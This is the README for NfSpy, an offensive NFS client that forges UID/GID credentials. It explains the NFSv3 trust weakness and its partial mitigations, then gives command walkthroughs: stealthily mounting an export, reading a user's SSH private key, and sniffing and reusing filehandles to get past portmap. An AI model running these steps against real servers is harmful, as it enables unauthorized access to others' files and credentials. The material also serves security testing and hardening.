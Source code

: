 NfSpy - an ID-spoofing NFS client
=================================
by [Daniel Miller](https://github.com/bonsaiviking)

NfSpy is a Python library for automating the falsification of NFS credentials when mounting an NFS
share. Included are two client programs:

* **nfspy** uses the Filesystem in Userspace (FUSE) library to mount an NFS
  share in Linux. This allows the use of any regular file-searching and
  manipulation programs like `grep` and `find` to explore the NFS export.

* **nfspysh** is a ftp-like interactive shell for exploring NFS exports. It does
  not require the FUSE library, so it can run on non-Linux platforms.

Vulnerability exploited
-----------------------

NFS before version 4 is reliant upon host trust relationships for
authentication. The NFS server trusts any client machines to authenticate users
and assign the same user IDs (UIDS) that the shared filesystem uses. This works
in NIS, NIS+, and LDAP domains, for instance, but only if you know the client
machine is not compromised, or faking its identity. This is because the only
authentication in the NFS protocol is the passing of the UID and GID (group
ID). There are a few things that can be done to enhance the security of NFS,
but many of them are incomplete solutions, and even with all three listed here,
it could still be possible to circumvent the security measures.

### Squash root

The server or the share ("export" in NFS lingo) can be configured root\_squash,
meaning that any requests that come in claiming to be UID or GID 0 (root) will
be treated like the nobody user, or equivalent on the system. This does not
prevent an attacker from spoofing any other UID/GID combo, but will protect the
most sensitive info and configs on the export.

### nfs\_portmon

Another setting that can be enabled is nfs\_portmon, which denies requests
coming from source ports outside of the 513-1024 range. Since only root can
(usually) allocate these ports, this prevents a regular user on a trusted
machine from writing and using their own NFS client that fakes UID/GID. It does
nothing to stop a rogue host, a user with su permissions, or a root-level
compromised machine from doing the same thing.

### Export restrictions

Shares/exports can be controlled so that only certain machines can access them.
These Access Control Lists can consist of:

* IP addresses (e.g. 192.168.1.34)
* IP prefixes (e.g. @192.168.1)
* hostnames (e.g. server1.mydom.nis)
* host lists (e.g. @trusted\_hosts)
* "everyone"

The best configuration would be to use a host list, since querying the nfs
daemon will just give the name of the list, not which addresses or names it
contains. Next in line would be IP addresses or hostnames, since those are more
difficult to spoof. IP prefixes and "everyone" are indications of insecurity,
since there is little or no restriction on what addresses can connect.

Using NfSpy
-----------

A list of options can be seen by running

    nfspy --help

### Example

There is an NFS server on 192.168.1.124.

    $ showmount -e 192.168.1.124
    Export list for 192.168.1.124:
    /home (everyone)

Mount up the share. Using sudo lets you bind to a privileged port, and the 
allow\_other option lets any user use the filesystem. The other new option here
is "hide", which immediately "unmounts" the share on the server, but keeps the 
filehandle it got. This hides your presence from anyone using showmount -a

    $ sudo nfspy -o server=192.168.1.124:/home,hide,allow_other,ro,intr /mnt

Enjoy your newfound freedom!

    $ cd /mnt
    /mnt$ ls -l
    drwx------ 74 8888 200 4096 2011-03-03 09:55 smithj
    /mnt$ cd smithj
    /mnt/smithj$ cat .ssh/id.rsa
    -----BEGIN RSA PRIVATE KEY-----
    Proc-Type: 4,ENCRYPTED
    DEK-Info: DES-EDE3-CBC,30AEB543E512CA19
    <snip>

To unmount, use fusermount:

    $ sudo fusermount -u /mnt

### Advanced example

There is an NFS server on 192.168.1.124. Portmap is blocked, so you can't get a list of shares, but you can sniff the network traffic.

    $ sudo tshark -n -i eth0 -T fields -e nfs.fhandle
    Running as user "root" and group "root". This could be dangerous.
    Capturing on eth0
    01:00:04:00:01:00:22:00:e5:03:d8:9d:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
    01:00:04:01:01:00:22:00:e5:03:d8:9d:07:00:22:00:15:83:74:d5:00:00:00:00:00:00:00:00:00:00:00:00
    01:00:04:01:01:00:22:00:e5:03:d8:9d:07:00:22:00:15:83:74:d5:00:00:00:00:00:00:00:00:00:00:00:00
    
    ^C3 packets captured

Now use the dirhandle and getroot mount options to avoid using the mount
daemon, and use the nfsport option to avoid using the portmapper, traversing
up the directory tree to the root of the export. 

    $ sudo nfspy -o rw,server=192.168.1.124:,nfsport=2049/udp,dirhandle=01:00:04:01:01:00:22:00:e5:03:d8:9d:07:00:22:00:15:83:74:d5:00:00:00:00:00:00:00:00:00:00:00:00,getroot mnt

Note that we didn't provide a path to mount, since all we know is the nfs
filehandle.

Using nfspysh
-------------

`nfspysh` takes the same basic set of options in the same format as `nfspy`, so
the tutorial above should work fine. The list of commands can be seen with the
"help" command.

    $ sudo PYTHONPATH=. python scripts/nfspysh -o server=127.0.0.1:/home/miller/nfs
    nfspy@127.0.0.1:/home/miller/nfs:/> ls
    /:
    040775  1000  1000       4096 2013-04-13 23:20:37 .
    040775  1000  1000       4096 2013-04-13 23:20:37 ..
    040775  1000  1000       4096 2013-04-11 06:36:48 public
    040775  1000  1000       4096 2013-04-13 23:26:40 more
    040700     0  1000       4096 2013-04-11 06:39:12 secrets
    100666  1000  1000          5 2013-04-13 23:28:02 README.md
    120777  1000  1000         21 2013-04-13 13:00:24 nmap -> /usr/local/share/nmap
    nfspy@127.0.0.1:/home/miller/nfs:/more> help
    Known commands:
        cd
        chmod
        chown
        exit
        get
        help
        lcd
        lpwd
        ls
        mkdir
        mv
        put
        pwd
        rm
        rmdir
        umask
    nfspy@127.0.0.1:/home/miller/nfs:/more> help get
    get <filename> [<localname>]
    
            Retrieve <filename> and save to <localname>. If no <localname> is given,
            defaults to the basename of <filename> in the current local working directory.
    nfspy@127.0.0.1:/home/miller/nfs:/more> exit
    Quitting.

BUGS
----

* Write access is beta. It has worked in my tests on a handful of systems,
  but could use more testing. Because of this, NfSpy defaults to mounting
  ro. Specify the rw mount option to change this.
  (nfspysh does not have a read-only mode. Tread carefully!)

* NfSpy does not work with the standard lockd and statd services, which could
  cause problems with writing to files. For read-only, though, and most
  nefarious uses for which it was intended, this shouldn't be a problem.

* NfSpy only supports NFSv3 at the moment. Future versions may intelligently
  choose a NFS version.

